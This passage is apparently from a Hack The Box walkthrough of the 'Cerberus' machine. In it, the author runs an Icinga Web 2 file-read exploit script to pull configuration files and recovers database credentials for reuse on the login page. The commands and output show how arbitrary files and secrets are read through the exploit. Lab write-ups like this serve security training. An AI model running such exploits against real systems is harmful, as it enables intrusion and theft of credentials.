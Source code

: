 ```bash
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/roles.ini    
[Administrators]
users = "matthew"
permissions = "*"
groups = "Administrators"
unrestricted = "1"


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/authentication.ini
[icingaweb2]
backend = "db"
resource = "icingaweb2"
```

Bingo! I can find dbname and valid credential!
- dbname : `icingaweb2`
- credential : `matthew` : `IcingaWebPassword2023`

Let's try this credential on login page.
